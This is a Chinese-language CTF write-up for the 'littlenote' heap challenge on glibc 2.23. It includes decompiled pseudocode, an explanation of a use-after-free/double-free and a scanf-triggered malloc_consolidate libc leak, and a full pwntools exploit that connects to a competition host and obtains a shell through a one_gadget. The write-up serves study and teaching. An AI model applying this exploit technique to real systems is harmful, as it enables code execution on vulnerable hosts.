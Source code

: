 # 铁三总决赛 littlenote
## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>一开始以为总决赛的题目会很难。。后来竟然三题里连我都做出了两题，题目都是glibc2.23的，算是非常经典常规的题目，没有tcache，也没有内核题。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>不多说了，先来看第一题，非常简单，冲脸就是一个**UAF和double free**，要点就在于如何泄露libc地址，这里用scanf就可以很简单的做到（**输入超长字符串给scanf就可以调用malloc分配largebin造成malloc_consolidate**），这里坑就坑在我以为任何字符串都可以Orz，后来发现**%u,%d之类的只能传数字**，不然输啥都不会malloc largebin。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>老样子先看看IDA分析的伪代码：</font></br>

**main**
```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init();
  memset(&s, 0, 0x10uLL);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, &s, 0xFuLL);
      v3 = atoi(&s);
      if ( v3 != 2 )
        break;
      shownote();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        freenote();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid option!");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      addnote();
    }
  }
}
```

**addnote**

```C
unsigned __int64 addnote()
{
  __int64 v0; // rbx
  __int64 v1; // rbx
  char buf; // [rsp+0h] [rbp-20h]
  unsigned __int64 v4; // [rsp+8h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  if ( (unsigned __int64)notenum > 0xF )
    puts("FULL");
  v0 = notenum;
  note[v0] = (const char *)malloc(0x60uLL);
  puts("Enter your note");
  read(0, (void *)note[notenum], 0x60uLL);
  puts("Want to keep your note?");
  read(0, &buf, 7uLL);
  if ( buf == 'N' )
  {
    puts("OK,I will leave a backup note for you");
    free((void *)note[notenum]);
    v1 = notenum;
    note[v1] = (const char *)malloc(0x20uLL);
  }
  ++notenum;
  puts("Done");
  return __readfsqword(0x28u) ^ v4;
}
```

**shownote**

```C
unsigned __int64 shownote()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Which note do you want to show?");
  _isoc99_scanf("%u", &v1);
  if ( v1 < (unsigned __int64)notenum )
  {
    if ( note[v1] )
      puts(note[v1]);
    puts("Done");
  }
  else
  {
    puts("Out of bound!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

**freenote**

```C
unsigned __int64 freenote()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Which note do you want to delete?");
  _isoc99_scanf("%u", &v1);
  if ( v1 < (unsigned __int64)notenum )
  {
    if ( note[v1] )
      free((void *)note[v1]);
    puts("Done");
  }
  else
  {
    puts("Out of bound!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以我们只要分配一系列fastbin，然后free之，直接就有重叠堆块了，然后用malloc_consolidate就可以泄露libc地址，再利用double free就可以把指针分配到\__free_hook上去，就做完了:)</font></br>

```python
#encoding:utf-8

from pwn import *

context.log_level='debug'

#p=process('./littlenote',env={'LD_PRELOAD':'./libc.so.6'})
p = remote('202.0.1.56',40001)
elf=ELF('./libc.so.6')

free_hook=elf.symbols['__free_hook']
one_gadget=0xf0274

sd=lambda x : p.send(x)
sl=lambda x : p.sendline(x)
sla=lambda a,x : p.sendlineafter(a,x)
rv=lambda x : p.recvuntil(x)
sa=lambda a,x : p.sendafter(a,x)


def alloc(content='',is_keep='Y'):
    sla('Your choice:\n','1')
    sla('Enter your note\n',content)
    sla('Want to keep your note?\n',is_keep)

def show(index,out=0,content=''):
    sla('Your choice:\n','2')
    if out:
        sla('Which note do you want to show?\n',content)
    else:
        sla('Which note do you want to show?\n',str(index))

def dele(index):
    sla('Your choice:\n','3')
    sla('Which note do you want to delete?\n',str(index))


alloc()     # 0
alloc()     # 1
alloc()     # 2
alloc()     # 3

dele(0)
dele(1)
dele(2)

show(2)
chunk_base=u64(p.recv(6)+2*'\x00')-0x70
log.info('chunk_base:'+hex(chunk_base))

# malloc_consildate在这
# 不懂的调试看看结果
# 或者在how2pwn里找一下我记得有demo
show(0,1,'1'*0x400)

alloc()     # 4 (0)
show(4)
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4c0a
log.info('libc_base:'+hex(libc_base))

alloc()     # 5 (1)
alloc()     # 6 (2)

dele(4)
dele(1)
dele(0)

alloc(p64(libc_base+0x3c4aed))
alloc(p64(libc_base+0x3c4aed))
alloc(p64(libc_base+0x3c4aed))
alloc('a'*0x13+p64(libc_base+one_gadget))

sla('Your choice:\n','1')

p.interactive()


'''
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0274	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1117	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```